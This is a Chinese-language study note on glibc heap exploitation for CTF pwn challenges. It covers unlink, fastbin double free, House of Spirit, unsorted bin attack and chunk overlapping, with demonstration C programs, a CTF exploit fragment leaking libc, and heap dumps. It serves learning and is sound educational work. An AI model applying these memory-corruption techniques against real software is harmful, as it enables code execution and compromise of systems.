



# 堆技巧学习

不会抄完原文，仅仅是做补充，更详细完整的内容还是要看标题地址给出的文章。推荐看[CTF 中 glibc堆利用 及 IO_FILE 总结](https://bbs.kanxue.com/thread-272098.htm),全是干货，可以作为学习的目录

## [unlink](https://github.com/JnuSimba/LinuxSecNotes/blob/master/Linux%20X86%20%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E7%B3%BB%E5%88%97/Unlink%E5%A0%86%E6%BA%A2%E5%87%BA.md)

### 2.2 开始攻击

......

假设被覆盖后的chunk header相关数据如下：

prev_size =一个偶数，这样其PREV_INUSE位就是0了，即表示前一个chunk为free。
size = -4
fd = free函数的got表地址address – 12；(后文统一简称为“free addr – 12”)
bk = shellcode的地址
那么当程序在[4]处调用free(first)后会发生什么呢？我们一步一步分析。
一、向后合并
鉴于first的前一个chunk非free的，所以不会发生向后合并操作。
二、向前合并
先判断后一个chunk是否为free，前文已经介绍过，glibc malloc通过如下代码判断：


PS：在本例中next chunk即second chunk，为了便于理解后文统一用next chunk。

从上面代码可以知道，它是通过将nextchunk + nextsize计算得到指向下下一个chunk的指针，然后判断下下个chunk的size的PREV_INUSE标记位。在本例中，此时nextsize被我们设置为了-4，这样glibc malloc就会将next chunk的prev_size字段看做是next-next chunk的size字段，而我们已经将next chunk的prev_size字段设置为了一个偶数，因此此时通过inuse_bit_at_offset宏获取到的nextinuse为0，即next chunk为free！既然next chunk为free，那么就需要进行向前合并，所以就会调用unlink(nextchunk, bck, fwd);函数。真正的重点就是这个unlink函数！

和栈一样，堆也可以溢出。处于使用状态的堆中的fd和bk部分用于存储用户数据，那这块区域肯定就是提前计划好的。假设这块为16个字节，但往里面存了超过16个字节的数据，那么数据就会溢出到chunk header（来自未来的我：似乎溢出到了下一个堆块的chunk header，而不是自己的）。上面的例子中将覆盖的内容精心布置，这种精心布置的理解和栈溢出一样，都是利用了堆的结构和程序特性来实现攻击。

一定要看每张图里的代码和注释，是有用的。比如unlink函数的参数是在前面的图中的注释里有提到，unlink(P,BK,FD)的p指向malloc_chunk的结构体，BK是bck，FD是fwd，它们分别是当前chunk向后和向前一个free chunk。

......

此时P = nextchunk, BK = bck, FD = fwd。
1)首先FD = nextchunk->fd = free地址– 12;
2)然后BK = nextchunk->bk = shellcode起始地址；
3)再将BK赋值给FD->bk，即（free地址– 12）->bk = shellcode起始地址；
4)最后将FD赋值给BK->fd，即(shellcode起始地址)->fd = free地址– 12。
前面两步还好理解，主要是后面2步比较迷惑。我们作图理解：


结合上图就很好理解第3，4步了。细心的朋友已经注意到，free addr -12和shellcode addr对应的prev_size等字段是用虚线标记的，为什么呢？因为事实上它们对应的内存并不是chunk header，只是在我们的攻击中需要让glibc malloc在进行unlink操作的时候将它们强制看作malloc_chunk结构体。这样就很好理解为什么要用free addr – 12替换next chunk的fd了，因为(free addr -12)->bk刚好就是free addr，也就是说第3步操作的结果就是将free addr处的数据替换为shellcode的起始地址。

由于已经将free addr处的数据替换为了shellcode的起始地址，所以当程序在代码[5]处再次执行free的时候，就会转而执行shellcode了。

至此，整个unlink攻击的原理已经介绍完毕，剩下的工作就是根据上述原理，编写shellcode了。只不过这里需要注意一点，glibc malloc在unlink的过程中会将shellcode + 8位置的4字节数据替换为free addr – 12，所以我们编写的shellcode应该跳过前面的12字节。

这段我理解了好久，什么叫“将它们强制看作malloc_chunk结构体”？看这篇文章需要C语言基础，但是我没有啊，于是搜到了[相关内容](https://blog.csdn.net/blog_xu/article/details/84374473)。是可以把一段连续的内存（比如后文提到的全局数组，不知道我这么理解对不对？）对应着转换成结构体的每一个成员的。这大概就是(free addr -12)->bk是free addr的原因了（按照堆块的结构，中间有3个字段，每个4字节，也许吧，我这个能力只能找到这个解释了）。

好消息：上面那段花了好久明白后你会发现：那个技术早就已经过时了=(。没关系，脑洞大开的黑客们总能想办法。

“如何利用”那个小节可以解答很多疑惑，果然来个例子就清晰很多了，而且还是绕过损坏双链表防御的方法。关键点在于用用户数据部分（fd和bk）伪造了整个堆块的结构，然后溢出到下一个堆块瞒天过海，两者配合欺骗glibc。

今天又做了个unlink题，一败涂地，去搜别的也没学会。无奈找了个[视频](https://www.bilibili.com/video/BV11q4y1E7E2/)。

之前一直没研究过源码（终究要为懒付出代价），开始还债。



看这些代码，p是当前free的堆块地址。如果p的前一个chunk不在使用状态，会触发unlink。unlink会把两个chunk合并在一起，自然合并后的结果是原本的两个chunk加起来的大小，size+=prevsize正是在计算合并后的大小。大小改了，p指针肯定也要改，这里是向前合并，所以p指针要指向前一个堆块，chunk_at_offset那行代码就是计算并赋值新的p指针。最后unlink将p从unsorted bin里拿出来，然后放回去。之前一直对这里有误解，以为unlink就是设置一下fd和bk，原来还有一个拿下来再放回去的操作。



既然unlink是完成合并的的主要函数，那其实现自然很重要吧？我们可以像上图一样伪造，P是一个堆，在chunk列表中，这个chunk列表就是做堆题时很常见的那种管理所有堆的数据结构，一般都是列表。接下来怎么绕过的上面已经提过了，最后两行其实操作的都是一个地址，FD->bk=BK往0x602280写入0x602270，BK->fd=FD往0x602280写入0x602268。自然最后一个才算数，所以最终效果是往chunk里写入了chunk-0x18的值，即往p所在的地址写入p-0x18。

接下来的例题我记录一些关键思路。由于unlink实施时需要得知chunk所在地址，自然pie不能有，或者要有泄露地址的方法。然后要找到这道题的p，即需要合并的堆块在哪里。视频中选择了0号块，不难找到地址是0x602300。选好地址后fd和bk简直手到擒来，每道题都是这样构造的。

第一个payload结构如下：prev_size，size，fd，bk构造假堆块，溢出prev_size和size到下一个堆块，更改标志位，使下一个堆块认为我们构造的堆块是free状态，free执行unlink。



unlink完成后，unsorted bin中插入了刚才合并得到的块。检查0x602300，发现0号块指向了0x6022e8，正是我们要的结果。检查0x6022e8，这不是整个chunk列表吗？现在我们编辑0号块就可以随意更改chunk列表，快乐覆盖快乐改地址。

不过还不能直接getshell，这题需要泄露libc。这简单啊，先0x18个a从0x6022e8填充到0x602300，再跟上两个atoi got地址，一个free地址。edit 2号块相当于把free 的got地址改为puts_plt，free（0）就能泄露atoi的地址了。地址出来了，getshell真的小菜一碟，改atoi或者free为system都行。

第二个例子跟这个差不多，就不记录了。大佬讲得实在太好了，现在就是坐等一道题练练手了

今天意识到了这个技巧的第二个用法：泄漏libc地址。其实就是unsorted bin attack，具体看这题： https://github.com/Dvorhack/ctf-WU/tree/main/udctf.2024/pwn/flaminglips

exp的unlink泄漏libc部分在这：
```py
new(3, 0x50, b'toto')
new(4, 0x50, b'toto')
new(5, 0x500, b'toto')
new(6, 0x10, b'anti-conso')
edit(3, p64(0) + p64(0x50+0x60) + p64(heap_leak+0x65d10)*2 )
edit(4, b'A'*0x50 + p64(0x50+0x60) + p64(0x510)) #1
delete(5) #2
new(7, 0x40, b'') #3
view(4)
```
基本可以当个公式来用。第`#1`步后堆布局如下：
```
0x55c08952dfb0: 0x0000000000000000      0x00000000000000b0
0x55c08952dfc0: 0x000055c08952dfb0      0x000055c08952dfb0
0x55c08952dfd0: 0x000000000000000a      0x0000000000000000
0x55c08952dfe0: 0x0000000000000000      0x0000000000000000
0x55c08952dff0: 0x0000000000000000      0x0000000000000000
0x55c08952e000: 0x0000000000000000      0x0000000000000061
0x55c08952e010: 0x4141414141414141      0x4141414141414141
0x55c08952e020: 0x4141414141414141      0x4141414141414141
0x55c08952e030: 0x4141414141414141      0x4141414141414141
0x55c08952e040: 0x4141414141414141      0x4141414141414141
0x55c08952e050: 0x4141414141414141      0x4141414141414141
0x55c08952e060: 0x00000000000000b0      0x0000000000000510
0x55c08952e070: 0x0000000a6f74000a      0x0000000000000000
```
第`#2`步后如下：
```
0x5cf09822efb0: 0x0000000000000000      0x00000000000005c1
0x5cf09822efc0: 0x0000791825c03b20      0x0000791825c03b20
0x5cf09822efd0: 0x0000000000000000      0x0000000000000000
0x5cf09822efe0: 0x0000000000000000      0x0000000000000000
0x5cf09822eff0: 0x0000000000000000      0x0000000000000000
0x5cf09822f000: 0x0000000000000000      0x0000000000000061
0x5cf09822f010: 0x4141414141414141      0x4141414141414141
0x5cf09822f020: 0x4141414141414141      0x4141414141414141
0x5cf09822f030: 0x4141414141414141      0x4141414141414141
0x5cf09822f040: 0x4141414141414141      0x4141414141414141
0x5cf09822f050: 0x4141414141414141      0x4141414141414141
0x5cf09822f060: 0x00000000000000b0      0x0000000000000510
0x5cf09822f070: 0x0000000a6f74000a      0x0000000000000000
```
0x510+0xb0=0x5c0。这个块此时属于unsorted bin大小，故fd和bk处有libc地址。第`#3`步后：
```
0x56a48daf3fb0: 0x0000000000000000      0x0000000000000051
0x56a48daf3fc0: 0x00007b0b4760000a      0x00007b0b47603f80
0x56a48daf3fd0: 0x000056a48daf3fb0      0x000056a48daf3fb0
0x56a48daf3fe0: 0x0000000000000000      0x0000000000000000
0x56a48daf3ff0: 0x0000000000000000      0x0000000000000000
0x56a48daf4000: 0x0000000000000000      0x0000000000000571
0x56a48daf4010: 0x00007b0b47603b20      0x00007b0b47603b20
0x56a48daf4020: 0x0000000000000000      0x0000000000000000
0x56a48daf4030: 0x4141414141414141      0x4141414141414141
0x56a48daf4040: 0x4141414141414141      0x4141414141414141
0x56a48daf4050: 0x4141414141414141      0x4141414141414141
0x56a48daf4060: 0x00000000000000b0      0x0000000000000510
0x56a48daf4070: 0x0000000a6f74000a      0x0000000000000000
```
从unsorted bin里的堆块割下了一部分，剩下的chunk的fd和bk继续被写入libc地址。`0x56a48daf4010`正好是4号堆块，所以此时view(4)就能泄漏libc地址。所以为什么要这么麻烦？因为此题接收输入的函数是fgets，无论怎么输入末尾都会有个null字符，view时使用的puts没法把后面的内容拿出来。关键点是利用unlink使三号堆块和五号堆块合并时包含中间的四号堆块，这样就能利用unsorted bin往链头chunk写libc地址的特性往没有被free的chunk里写libc地址，就能绕过fgets的强制输入得到泄漏

## [Fastbin Attack](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/fastbin-attack/)

### Fastbin Double Free

这个在pwn堆中用得很多，不会就吃席。而且大部分都属于入门级别堆题，虽然堆的入门级别已经比ret2libc还要难得多。

fastbin attack的关键在于堆溢出，或者别的能控制chunk内容的东西，例如uaf。这里说的chunk内容不是chunk的user data域，而是fd，bk这类平时接触不到但是又和chunk息息相关的东西。拿stack的pwn类比，正常来说用户输入不可能碰得到ebp，eip这种东西，但是ebp和eip又和栈的执行息息相关。在栈上我们通过溢出构造rop链，本质上就是理解并利用了栈的结构，现在到堆了也是一个道理。

fastbin attack有这些分类：

·Fastbin Double Free

·House of Spirit

·Alloc to Stack

·Arbitrary Alloc

前两种漏洞侧重于利用 free 函数释放真的 chunk 或伪造的 chunk，然后再次申请 chunk 进行攻击，后两种侧重于故意修改 fd 指针，直接利用 malloc 申请指定位置 chunk 进行攻击。说这些肯定没法懂，研究原理。

搞fastbin attack不懂fastbin寸步难行。fastbin使用单链表维护制定大小内被释放的堆块，并且由 fastbin 管理的 chunk 即使被释放，其 next_chunk 的 prev_inuse 位也不会被清空。假设我们有3个chunk，都是fastbin大小，free chunk1会让chunk1加入fastbin的单链表，fd 是0x000000，代表没有前一个堆块；free chunk 2会让chunk 2的fd指向chunk 1；free chunk3会让chunk 3的fd指向chunk 2。就是排队，太好理解了。

这样看来fastbin malloc时的顺序也很简单了。假如malloc的大小和已有的一致，比如chunk 3，那就会把chunk 3从链表中拿出去；然后chunk 2；最后chunk 1。先进后出。现在有个问题，你说同一个chunk能不能排两次队？答案是可以。这主要因为以下两个问题：

1. fastbin 的堆块被释放后 next_chunk 的 pre_inuse 位不会被清空
2. fastbin 在执行 free 的时候仅验证了 main_arena 直接指向的块，即链表指针头部的块。对于链表后面的块，并没有进行验证。

pre_inuse不清空让系统不知道前面的堆块是不是已经被使用了；不做验证更是给了double free的温床。试想这个场景，有chunk1和chunk2，先free chunk1，然后再free chunk1，会出现问题吗？答案是会，因为链表头部还是会验证的，chunk1在此处就是fastbin的链表头部。于是我们以第一步为基础，再free chunk2，现在在free chunk1会报错吗？这回就不会了，因为现在的链表头部是chunk2了。double free chunk1会导致一个问题，同一个chunk排了两次队。

main_arena->chunk1->chunk2->chunk1

本来chunk1是第一个chunk（这个第一个指的是第一个进入链表的chunk），因此fd是0；现在它又来排队了，fd理所当然就成了chunk2。前面说过，fastbin attack的前提是能修改堆块结构，如果我们把chunk1的fd改了就能实现任意地址分配 fastbin 块。比如这个例子。

```c
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;
} CHUNK,*PCHUNK;

CHUNK bss_chunk;

int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    void *chunk_a,*chunk_b;

    bss_chunk.size=0x21;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);

    chunk_a=malloc(0x10);
    *(long long *)chunk_a=&bss_chunk;
    malloc(0x10);
    malloc(0x10);
    chunk_b=malloc(0x10);
    printf("%p",chunk_b);
    return 0;
}
```

前面几个malloc和free只是构造一个上面提到的链表。其实我有一点不懂改chunk_a的地址为bss_chunk怎么就改了fd了呢？还好一般题目不是这样改的，溢出改的居多。第一次malloc chunk_a，得到的指针和chunk1一致。更改chunk_a等同于更改chunk1的fd。不过这次更改不会影响下次malloc，毕竟链表在更改之前就按照fd把链表尾设为chunk2了。于是第二次malloc得到chunk2。同理，第三次malloc得到chunk1。这时候问题来了，我们知道fastbin指定链表尾是根据fd的，chunk1的fd是什么？bss_chunk，之前设置的。于是最后一次malloc成功得到想要地址的chunk，攻击完成。

值得注意的是，我们在 main 函数的第一步就进行了bss_chunk.size=0x21;的操作，这是因为_int_malloc 会对欲分配位置的 size 域进行验证，如果其 size 与当前 fastbin 链表应有 size 不符就会抛出异常。这是个小贴士，如果因为种种原因要分配的chunk的size不对，需要先改一下才能攻击。

通过 fastbin double free 我们可以使用多个指针控制同一个堆块，这可以用于篡改一些堆块中的关键数据域或者是实现类似于类型混淆的效果。 如果更进一步修改 fd 指针，则能够实现任意地址分配堆块的效果 (首先要通过验证)，这就相当于任意地址写任意值的效果。

### House Of Spirit

该技术的核心在于在目标位置处伪造 fastbin chunk，并将其释放，从而达到分配指定地址的 chunk 的目的。常见的用法是把堆块分配到`__malloc_hook`周围，然后编辑hook为getshell的gadget。

只有一个关键点——构造fastbin范围内的fake chunk，且这个fake chunk可以并入fastbin链表中。根据free的源码，有以下条件：

- fake chunk 的 ISMMAP 位不能为 1，因为 free 时，如果是 mmap 的 chunk，会单独处理。
- fake chunk 地址需要对齐， MALLOC_ALIGN_MASK
- fake chunk 的 size 大小需要满足对应的 fastbin 的需求，同时也得对齐。
- fake chunk 的 next chunk 的大小不能小于 2 * SIZE_SZ，同时也不能大于av->system_mem 。
- fake chunk 对应的 fastbin 链表头部不能是该 fake chunk，即不能构成 double free 的情况。

用一个例子说明（个人渣翻）：

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    fprintf(stderr, "该文件演示house of spirit攻击\n");

    fprintf(stderr, "调用一次malloc让其设置好内存\n");
    malloc(1);

    fprintf(stderr, "现在覆盖一个指针，使其指向构造的fastbin区域\n");
    unsigned long long *a;
    // 这里和fastbinsY没有任何关系（不要被索引的10给误导了）——fake_chunks仅仅是一块满足分配要求的内存
    unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

    fprintf(stderr, "这块区域（内存大小：%lu）包含2个堆块。第一个开始于 %p ，第二个开始于 %p。\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[7]);

    fprintf(stderr, "这块区域的chunk.size需要比区域大16（为了配合chunk data），不过还是会进入fastbin范围（64位机器上<=128）。PREV_INUSE (lsb)比特位在fastbin chunk上被free函数忽略，然而IS_MMAPPED（second lsb）和NON_MAIN_ARENA (third lsb)会有影响\n");
    fprintf(stderr, "...注意申请的大小需要根据malloc的实现四舍五入至内部大小。比如在64位机器上，0x30-0x38会被四舍五入到0x40，这样它们最后才能正常运作 \n");
    fake_chunks[1] = 0x40; // 这是size

    fprintf(stderr, " *下一个* 构造区域的chunk.size字段必须合理。即> 2*SIZE_SZ (64位上>16) && < av->system_mem（对于main arena默认<128kb），为了绕过nextsize integrity检查，不一定是fastbin大小\n");
        // fake_chunks[9]的原因是0x40的大小 / sizeof(unsigned long long) = 8
    fake_chunks[9] = 0x1234; // nextsize

    fprintf(stderr, "现在我们覆盖指针为构造区域的地址，位于第一个fake chunk，%p\n", &fake_chunks[1]);
    fprintf(stderr, "... 注意有关这个堆块的 *区域* 的内存大小必须是16字节对齐\n");
    a = &fake_chunks[2];

    fprintf(stderr, "free刚才覆盖的指针\n");
    free(a);

    fprintf(stderr, "现在malloc函数会返回我们构造的fake chunk的区域，位于 %p，也就是%p！\n", &fake_chunks[1], &fake_chunks[2]);
    fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```

可以看出，想要使用该技术分配 chunk 到指定地址，其实并不需要修改指定地址的任何内容，关键是要能够修改指定地址的前后的内容使其可以绕过对应的检测。

## [Unsorted Bin Attack](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/unsorted-bin-attack/)

### 概述

Unsorted Bin Attack，顾名思义，该攻击与 Glibc 堆管理中的的 Unsorted Bin 的机制紧密相关。

Unsorted Bin Attack 被利用的前提是控制 Unsorted Bin Chunk 的 bk 指针。

Unsorted Bin Attack 可以达到的效果是实现修改任意地址值为一个较大的数值。

总结一下，unsorted bin attack发生在unsorted bin中，需要能控制堆的bk指针。这个条件堆溢出轻松满足。效果是修改任意地址值为一个较大的数值。注意这个值是没法由我们控制的，因此除了一些特别的题，这种攻击手法都是为将来做铺垫的。

### Unsorted Bin Attack 原理 

在 glibc/malloc/malloc.c 中的 _int_malloc 有这么一段代码，当将一个 unsorted bin 取出的时候，会将 bck->fd 的位置写入本 Unsorted Bin 的位置。

```c
          /* remove from unsorted list */
          if (__glibc_unlikely (bck->fd != victim))
            malloc_printerr ("malloc(): corrupted unsorted chunks 3");
          unsorted_chunks (av)->bk = bck;
          bck->fd = unsorted_chunks (av);
```

换而言之，如果我们控制了 bk 的值，我们就能将 unsorted_chunks (av) 写到任意地址。

拿堆溢出的语境做类比，bck是我们能通过溢出修改的chunk，`bck->fd = unsorted_chunks (av);`这行代码将bck的fd指针赋值为`unsorted_chunks (av)`。我们可以利用溢出将`bck->fd`设置为目标地址，代码执行后目标地址的值就是`unsorted_chunks (av)`了。然而`unsorted_chunks (av)`的确切值我们没法控制，这也是该攻击只能将目标地址改为较大值的根本原因。

这里以 shellphish 的 how2heap 仓库中的 [unsorted_bin_attack.c](https://github.com/shellphish/how2heap/blob/master/unsorted_bin_attack.c) 为例进行介绍，做一些简单的修改，如下(我渣翻了英语)

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
  fprintf(stderr, "此文件通过将一个较大的unsigned long值写入栈来演示unsorted bin attack\n");
  fprintf(
      stderr,
      "实际情况中，unsorted bin attack用于为接下来的攻击做准备，比如覆盖libc的全局变量global_max_fast为fastbin attack做准备\n\n");

  unsigned long target_var = 0;
  fprintf(stderr,
          "先看看我们要在栈上修改的值:\n");
  fprintf(stderr, "%p: %ld\n\n", &target_var, target_var);

  unsigned long *p = malloc(400);
  fprintf(stderr, "接着，我们分配第一个普通堆块，位于堆的: %p\n",
          p);
  fprintf(stderr, "再分配一个普通堆块，防止free时刚才的堆块与top chunk合并\n\n");
  malloc(500);

  free(p);
  fprintf(stderr, "我们刚刚free了第一个堆块，现在它会被插入unsorted bin中，其bk指针为 %p\n",
          (void *)p[1]);

  /*------------漏洞点-----------*/

  p[1] = (unsigned long)(&target_var - 2);
  fprintf(stderr, "现在我们模拟一个可以修改 被溢出堆块->bk指针 的漏洞\n");
  fprintf(stderr, "然后覆盖被溢出堆块的bk指针为 目标地址-16（在32位机器上，应该覆盖为 目标地址-8）:%p\n\n",
          (void *)p[1]);

  //------------------------------------

  malloc(400);
  fprintf(stderr, "让我们再malloc一次，得到我们刚刚free的那个堆块。这回目标地址应该已经被修改了:\n");
  fprintf(stderr, "%p: %p\n", &target_var, (void *)target_var);
}
```

这里我们可以使用一个图来描述一下具体发生的流程以及背后的原理。


初始状态时

unsorted bin 的 fd 和 bk 均指向 unsorted bin 本身。

执行 free(p)

由于释放的 chunk 大小不属于 fast bin 范围内，所以会首先放入到 unsorted bin 中。

修改 p[1]

利用某些漏洞例如堆溢出修改之后，原来在 unsorted bin 中的 p 的 bk 指针就会指向 target addr-16 处伪造的 chunk，即 Target Value 处于伪造 chunk 的 fd 处。这样伪造会让unsorted bin中凭空多出来一个堆块。无论target addr是什么结构都不重要，系统都会自动将其看为一个堆块。target addr-16这个值也不是乱写的，这样构造可以让target value正好位于凭空冒出来堆块的fd处。

申请 400 大小的 chunk

此时，所申请的 chunk 处于 small bin 所在的范围，其对应的 bin 中暂时没有 chunk，所以会去 unsorted bin 中找，发现 unsorted bin 不空，于是把 unsorted bin 中的最后一个 chunk 拿出来。

注意unsroted bin是FIFO，像队列一样，因此我们现在取出来的是刚刚free的p堆块。

```c
        /*unsorted_chunks(av)结合上面的图可以猜测是unsorted bin里粉色的初始块，其bk此时为p。因此这里的victim是上面提到的p*/
        while ((victim = unsorted_chunks(av)->bk) != unsorted_chunks(av)) {
            /*victim->bk等于说p->bk，之前我们把p的bk指针覆盖为了target_addr-16,因此bck=target_addr-16*/
            bck = victim->bk;
            if (__builtin_expect(chunksize_nomask(victim) <= 2 * SIZE_SZ, 0) ||
                __builtin_expect(chunksize_nomask(victim) > av->system_mem, 0))
                malloc_printerr(check_action, "malloc(): memory corruption",
                                chunk2mem(victim), av);
            size = chunksize(victim);

            /*
               If a small request, try to use last remainder if it is the
               only chunk in unsorted bin.  This helps promote locality for
               runs of consecutive small requests. This is the only
               exception to best-fit, and applies only when there is
               no exact fit for a small chunk.
             */
            /* 显然，bck被修改，并不符合这里的要求*/
            if (in_smallbin_range(nb) && bck == unsorted_chunks(av) &&
                victim == av->last_remainder &&
                (unsigned long) (size) > (unsigned long) (nb + MINSIZE)) {
                ....
            }

            /* remove from unsorted list */
            /*让初始块的bk等于bck，也就是target_addr-16*/
            unsorted_chunks(av)->bk = bck;
            /*虽然target_addr-16并不是严格意义上的堆块，但这里强行将其看作堆块。遵循堆块的结构，fd指针处于堆块地址偏移16的位置，那么bck->fd等同于*(target_addr-16+16)。最后赋值其为unsorted_chunks(av)，一个很大的值*/
            bck->fd                 = unsorted_chunks(av);
```

可以看出，在将 unsorted bin 的最后一个 chunk 拿出来的过程中，victim 的 fd 并没有发挥作用，所以即使我们修改了其为一个不合法的值也没有关系。然而，需要注意的是，unsorted bin 链表可能就此破坏，再插入 chunk 时，可能会出现问题。这是因为最后`unsorted_chunks(av)->bk = bck;`把那个不存在的堆块也看作堆块插入链表了。

最后效果即修改 target 处的值为 unsorted bin 的链表头部 0x7f1c705ffb78。可以看到 unsorted bin attack 确实可以修改任意地址的值，但是所修改成的值却不受我们控制，唯一可以知道的是，这个值比较大。而且，需要注意的是，

这看起来似乎并没有什么用处，但是其实还是有点用的，比如说:

·我们通过修改循环的次数来使得程序可以执行多次循环。

·我们可以修改 heap 中的 global_max_fast 来使得更大的 chunk 可以被视为 fast bin，这样我们就可以去执行一些 fast bin attack 了。

## [Chunk Extend and Overlapping](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/chChunk%20Extend%20and%20Overlapping%C2%B6)

该漏洞需要以下条件：
- 程序中存在基于堆的漏洞
- 漏洞可以控制 chunk header 中的数据

如果研究一下源码，就可以知道ptmalloc 通过 chunk header 的数据判断 chunk 的使用情况和对 chunk 的前后块进行定位。这意味着如果我们控制size和pre_size域后，ptmalloc对堆块的边界和划分就会混乱，从而得以利用。、

### 基本示例 1：对 inuse 的 fastbin 进行 extend

通过更改第一个块的大小来控制第二个块的内容。

```c
int main(void)
{
    void *ptr,*ptr1;

    ptr=malloc(0x10);//分配第一个0x10的chunk
    malloc(0x10);//分配第二个0x10的chunk

    *(long long *)((long long)ptr-0x8)=0x41;// 修改第一个块的size域，这一步实战中通过堆溢出漏洞实现

    free(ptr);  //free chunk1
    ptr1=malloc(0x30);// 实现 extend，控制了第二个块的内容
    return 0;
}
```

没有篡改前的堆长这样：

```
0x602000:   0x0000000000000000  0x0000000000000021 <=== chunk 1
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000021 <=== chunk 2
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000020fc1 <=== top chunk
```

篡改后长这样：

```
0x602000:   0x0000000000000000  0x0000000000000041 <=== 篡改大小
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000021
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000020fc1 
```

仅仅是21和41的区别却天差地别。注意size被更改后，chunk2的内容现在被包含进chunk1了。这时free chunk1会发现chunk1会和chunk2合并在一起被free。

```
0x602000:   0x0000000000000000  0x0000000000000041 <=== 篡改大小
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000021
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000020fc1 
```

最后我们 malloc(0x30) ，会得到 chunk1+chunk2 的块。此时正常编辑就可以直接控制 chunk2 中的内容，我们也把这种状态称为 overlapping chunk。

### 基本示例 2：对 inuse 的 smallbin 进行 extend

